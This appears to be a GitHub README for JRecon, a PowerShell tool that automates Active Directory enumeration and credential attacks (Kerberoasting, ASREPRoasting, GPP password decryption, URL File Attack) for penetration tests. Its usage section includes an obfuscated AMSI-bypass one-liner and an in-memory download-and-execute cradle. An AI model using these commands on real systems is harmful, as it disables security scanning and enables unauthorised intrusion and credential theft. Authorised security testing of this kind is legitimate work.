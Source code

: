 # JRecon
### A tool to automate Active Directory Enumeration
I've been working on this tool to automate a good part of the initial AD enumeration phase.

JRecon is not perfect, but it does it's job - while I can go grab a coffee

No third-party tool is invoked from the internet, everything is embedded. Why ? Because we may have no access to internet or Github repositories during engagements, and tools may change syntax when updated which would brake JRecon. The only code that may change in time (creating some issues) is BloodHound collector, which I’ll try to keep updated.

JRecon will initially ask what tools you want to run. Why ? First of all to make sure you stay in scope, but also because it may not be the first time you run the tool. As a matter of fact, you may want to re-run some of the tasks as you move laterally within AD (e.g.: shares enumeration or BloodHound)

### What does the tool enumerate ? Does it run any attack that I should be aware of ?

The only attacks it runs is Kerberoasting, ASREPRoasting, and URL File Attack. Everything else is just enumeration

My advice is to run the tool within an empty working directory folder, and (if needed) re-run within the same folder. 

Why ? Because it uses some of the output it produces to perform other tasks.

JRecon will initially ask you if you want to download tools like Nessus, WinShareEnum, AdvIPScanner, HFS, VirtualBox, and Kali OS

The tool enumerates for and performs (upon request):

•	AD objects and policies (subnets, computers, users, DCs, password policy and more)

•	Users Description field piping to file (excludes blank entries)

•	Creates a list of Servers

•	Creates a list of Hosts running Unsupported OS

•	Checks on Local Admins on the system

•	Checks if AV is installed

•	Checks for Local Admin Password Solution (LAPS)

•	Kerberoasting and ASREPRoasting

•	Checks for presence of Kerb Tickets in your local machine

•	Enumerates for Vulnerable GPOs

•	Checks for Misconfigured Certificate Templates

•	BloodHound collection

•	Checks for Exploitable Systems

•	Checks for LDAP Signing

•	Checks for Passwords in GPO (and decrypts them if it finds any)

•	Checks for Passwords in SYSVOL/Netlogon

•	Checks for Accessible shares (Read)

•	Checks for Writable shares (Write)

•	Asks you if you want to run a URL File Attack

### How to run ?

First bypass AMSI (example below)

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Set a variable to download your licensed version of PingCastle

(If you skip this step PingCastle Free Edition will be downloaded - Not for commercial use)

```
$jpingdownload = "<URL>"
```

You can set the variable "$jYesToAll" to "All" (before running the tool) to make it run without asking questions

This feature is probably best to use if you know the tool already, and you know it won't go out of scope

```
$jYesToAll = "All"
```

Finally, invoke and run the tool on memory (don't make it touch disk)

```
iex(new-object net.webclient).downloadstring('')
```

## JRecon is a collection of other scripts and tools

### Which tools are included?


**Rubeus**

Rubeus is a C# toolset for raw Kerberos interaction and abuses.

@Credit to: https://github.com/GhostPack/Rubeus && https://github.com/gentilkiwi/kekeo/
 

**Grouper3**

Find vulnerabilities in AD Group Policy, but do it better than Grouper2 did.

@Credit to: https://github.com/Group3r/Group3r
 

**Certify**

Active Directory certificate abuse. 

@Credit to: https://github.com/GhostPack/Certify


**LdapSignCheck**

C# project to check LDAP signing.

@Credit to: https://github.com/cube0x0/LdapSignCheck


**PingCastle** (Free Edition - **Not for commercial use**)

Get Active Directory Security at 80% in 20% of the time

@Credit to: https://github.com/vletoux/pingcastle


**SharpHound**

C# Data Collector for the BloodHound Project

@Credit to: https://github.com/BloodHoundAD/SharpHound


**ADRecon**

ADRecon is a tool which gathers information about the Active Directory

@Credit to: https://github.com/sense-of-security/ADRecon


**Invoke-Kerberoast**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1


**PowerView**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1


**Invoke-ShareFinder**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/darkoperator/Veil-PowerView/blob/master/PowerView/functions/Invoke-ShareFinder.ps1


**AmsiScanBuffer bypass**

Author: Rasta Mouse (@_RastaMouse)

@Credit to: https://twitter.com/_RastaMouse


**Get-ExploitableSystems**

Author: Scott Sutherland (@_nullbind)

@Credit to: https://github.com/nullbind/Powershellery/blob/master/Stable-ish/ADS/Get-ExploitableSystems.psm1


**Get-GPPPassword**

Author: Chris Campbell (@obscuresec)

@Credit to: https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
